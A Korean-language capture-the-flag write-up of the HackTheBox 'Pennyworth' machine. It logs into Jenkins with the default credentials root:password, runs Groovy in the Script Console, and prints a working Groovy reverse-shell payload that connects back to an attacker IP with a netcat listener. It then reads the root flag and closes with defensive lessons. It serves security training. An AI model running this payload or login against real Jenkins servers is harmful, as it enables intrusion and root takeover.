









# Pennyworth

## 개요

Jenkins CI/CD 서버의 Script Console 기능을 통해 Groovy 스크립트로 원격 코드 실행(RCE)을 달성하고, Reverse Shell을 통해 서버에 대한 완전한 접근권한을 획득하는 머신이다. 기본 자격증명을 사용하는 Jenkins 서버의 위험성과 Script Console을 통한 RCE 기법을 실습할 수 있다.

## 대상 정보

| 항목 | 내용 |
|------|------|
| 플랫폼 | HackTheBox Starting Point Tier 1 |
| 운영체제 | Linux |
| 개방 포트 | 8080 (HTTP) |
| 주요 기술 스택 | Jetty 9.4.39.v20210325, Jenkins |
| 취약점 | Jenkins Script Console RCE (기본 자격증명) |

---

## 풀이 과정

### 1. 포트 스캔

nmap으로 대상 서버의 열린 포트와 서비스 버전을 확인한다.

```bash
nmap -sC -sV $IP
```



8080번 포트에서 Jetty 9.4.39.v20210325가 동작하고 있음을 확인했다. Jetty는 Java 기반 웹 서버로, Jenkins가 내부적으로 사용하는 서블릿 컨테이너다.

---

### 2. Jenkins 버전 확인

nmap 결과에서 Jetty 버전만 확인되고 Jenkins 버전이 직접 표시되지 않아, curl로 응답 헤더를 확인한다.

```bash
curl -v http://$IP:8080/login 2>&1 | head -30
```



응답 헤더의 `X-Jenkins: 2.289.1`에서 Jenkins 버전을 확인했다.

---

### 3. Jenkins 로그인

Jenkins 로그인 페이지에서 기본 자격증명으로 로그인을 시도한다.



기본 자격증명 `root:password`로 로그인에 성공했다.



---

### 4. Script Console 접근

Jenkins 관리자 패널에서 Script Console에 접근한다.

```
http://$IP:8080/script
```



Script Console은 Groovy 스크립트를 서버에서 직접 실행할 수 있는 기능이다. 관리자 권한이 있으면 이 기능을 통해 서버에서 임의의 명령어를 실행할 수 있다.

---

### 5. Groovy 스크립트로 RCE 확인

먼저 `id` 명령어로 현재 실행 중인 유저를 확인한다.

```groovy
def cmd = "id".execute()
println cmd.text
```



`uid=0(root)`가 확인됐다. Jenkins 서버가 root 권한으로 실행되고 있어 RCE를 통해 서버 전체를 제어할 수 있다.

---

### 6. Reverse Shell 획득

공격자 머신에서 netcat으로 리스너를 실행하고, Groovy 스크립트로 Reverse Shell을 연결한다.

공격자 머신에서 리스너 실행:
```bash
nc -lvnp 4444
```

Script Console에서 Groovy Reverse Shell 페이로드 실행:
```groovy
String host = "<YOUR_IP>"
int port = 4444
String cmd = "/bin/bash"
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new Socket(host, port)
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream()
OutputStream po = p.getOutputStream(), so = s.getOutputStream()
while(!s.isClosed()) {
    while(pi.available() > 0) so.write(pi.read())
    while(pe.available() > 0) so.write(pe.read())
    while(si.available() > 0) po.write(si.read())
    so.flush(); po.flush()
    Thread.sleep(50)
}
```





공격자 머신의 netcat 리스너에 서버로부터 연결이 들어왔다.

---

### 7. Flag 획득

획득한 쉘에서 Flag를 읽어낸다.

```bash
cat /root/flag.txt
```



Flag를 성공적으로 획득했다.

---

## 취약점 원인 분석

이 머신의 취약점은 두 가지가 결합된 결과다. 첫째로 Jenkins가 기본 자격증명(`root:password`)으로 운영되고 있었고, 둘째로 Jenkins Script Console이 외부에서 접근 가능한 상태였다. Script Console은 설계상 서버에서 임의 코드를 실행하는 기능이기 때문에, 관리자 계정만 탈취되면 즉시 RCE로 이어진다.

---

## 실제 환경에서의 위험성

Jenkins는 CI/CD 파이프라인의 핵심으로, 소스 코드, 배포 키, 클라우드 자격증명 등 민감한 정보에 접근할 수 있는 위치에 있다. 공격자가 Jenkins를 장악하면 빌드 파이프라인에 악성 코드를 삽입하거나, 연결된 모든 서버에 대한 접근권한을 획득할 수 있다.

---

## 핵심 정리

| 항목 | 내용 |
|------|------|
| 취약점 | Jenkins 기본 자격증명 + Script Console RCE |
| 초기 접근 | 기본 자격증명으로 로그인 |
| RCE 방법 | Groovy 스크립트 실행 (Script Console) |
| 쉘 획득 | Groovy Reverse Shell → netcat 리스너 |
| 실행 권한 | root (uid=0) |
| 교훈 | Jenkins는 반드시 강한 자격증명을 사용하고 Script Console 접근을 제한해야 한다 |
